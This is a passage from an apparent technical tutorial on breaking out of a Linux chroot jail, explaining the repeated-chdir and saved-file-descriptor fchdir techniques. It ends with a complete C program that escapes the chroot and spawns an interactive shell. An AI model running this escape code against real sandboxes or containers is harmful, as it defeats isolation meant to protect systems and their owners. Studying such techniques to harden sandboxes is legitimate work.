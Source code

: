 <pre><code>  chroot(&quot;../../../../../../../../&quot;);
</code></pre>
</blockquote>

<p>The <code>move_to_root</code> function loops an arbitrary number of times to recurse up to the root directory.  Chances are fairly good that the <code>chroot</code> is nowhere that deeply nested on the machine, and once in the root of the filesystem tree (<code>/</code>), the files <code>..</code> and <code>.</code> mean the same thing.  In other words, once in the root directory <code>..</code> doesn&rsquo;t do anything.</p>

<p>Now that we&rsquo;re that we&rsquo;ve broken out of the <code>chroot</code>, the last steps are to set the current (root) directory as the new <code>chroot</code> and then do something useful like launch a root shell.</p>

<h3 id="when-cwd-is-changed">When <code>cwd</code> Is Changed</h3>

<p>Be aware that some kernels will change the <code>cwd</code> to be inside the <code>chroot</code> when calling <code>chroot</code>, which makes it impossible to escape the <code>chroot</code> environment by <code>chroot</code>ing to a another directory.  If this is the case, there is an alternative way to break out of the <code>chroot</code> using the file descriptor of the <code>cwd</code> <em>before</em> the <code>chroot</code> system call.</p>

<p>Again, from the <a href="http://man7.org/linux/man-pages/man2/chroot.2.html"><code>chroot</code> man page</a>:</p>

<pre>
This  call  does not close open file descriptors, and such file descriptors may allow
access to files outside the chroot tree.
</pre>

<p>Since the key in this scenario is to store the file descriptor of a directory outside of the soon-to-be <code>chroot</code> before <code>chroot</code>ing, we store the result of the <a href="http://man7.org/linux/man-pages/man2/open.2.html"><code>open</code> syscall</a> to the <code>cwd</code>, which will be a file descriptor.</p>

<p>Then, we escape the new <code>chroot</code> by way of passing the file descriptor to the <a href="https://linux.die.net/man/2/fchdir"><code>fchdir</code> syscall</a>:</p>

<pre><code>fd = open(&quot;.&quot;, O_RDONLY);
chroot(&quot;.futz&quot;);
fchdir(fd);
</code></pre>

<p>An full example of this could look like the following:</p>

<pre><code>#include &lt;sys/stat.h&gt;
#include &lt;unistd.h&gt;
#include &lt;fcntl.h&gt;

void move_to_root() {
    for (int i = 0; i &lt; 1024; ++i)
        chdir(&quot;..&quot;);
}

int main() {
    int fd;
    mkdir(&quot;.futz&quot;, 0755);
    fd = open(&quot;.&quot;, O_RDONLY);
    chroot(&quot;.futz&quot;);
    fchdir(fd);
    close(fd);
    move_to_root();
    chroot(&quot;.&quot;);
    return execl(&quot;/bin/sh&quot;, &quot;-i&quot;, NULL);
}
</code></pre>

